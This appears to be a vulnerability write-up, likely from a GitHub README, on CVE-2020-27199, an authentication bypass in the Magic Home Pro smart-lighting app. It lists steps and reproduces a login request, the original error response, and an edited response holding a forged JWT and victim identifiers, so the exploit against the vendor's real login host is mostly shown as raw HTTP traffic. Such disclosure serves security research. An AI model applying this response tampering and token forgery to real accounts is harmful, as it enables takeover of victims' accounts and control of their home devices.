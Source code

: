 ### Authentication Bypass (Magic Home Pro) (CVE-2020-27199)
 
- Utilising the JSON token forgery coupled with the gleaned information i.e. the Victim Email, ClientID and UniqID based on the above enumeration it is possible to bypass the Mobile App authentication process through manipulating the HTTP response and thus gaining access to the Application as the victim.

- Attacker uses the Magic Home Pro application utilising a victim email address, arbitrary password and clientID

- The attacker can then manipulate the HTTP response using the details in step 1 which allows for the bypass to take place

```
Original HTTP Login Request via Magic Home Pro Mobile app
 
POST /app/login/ZG001 HTTP/1.1
User-Agent: Magic Home/1.5.1(ANDROID,9,en-US)
Accept-Language: en-US
Accept: application/json
token:
Content-Type: application/json; charset=utf-8
Content-Length: 117
Host: wifij01us.magichue.net
Connection: close
Accept-Encoding: gzip, deflate
 
{"userID":"<victim userID>","password":"<arbitrary password>","clientID":"<arbitrary ClientID>"}

Original HTTP Response
 
HTTP/1.1 200
Server: nginx/1.10.3
Date: Thu, 08 Oct 2020 00:08:45 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 37
 
{"code":10033,"msg":"Password error"}

Edited HTTP Response
 
HTTP/1.1 200
Server: nginx/1.10.3
Date: Mon, 06 Jul 2020 12:32:02 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 907
 
{"code":0,"msg":"","data":{"webApi":"wifij01us.magichue.net/app","webPathOta":"http://wifij01us.magichue.net/app/ota/download","tcpServerController":"TCP,8816,ra8816us02.magichue.net","tcpServerBulb":"TCP,8815,ra8815us02.magichue.net","tcpServerControllerOld":"TCP,8806,mhc8806us.magichue.net","tcpServerBulbOld":"TCP,8805,mhb8805us.magichue.net","sslMqttServer":"ssl://192.168.0.112:1883","serverName":"Global","serverCode":"US","userName":"<victim userID>","userEmail":"<victim email>","userUniID":"<uniID gleaned from enumeration>"},"token":"<forged JWT based on gleaned data from API call>"}
```
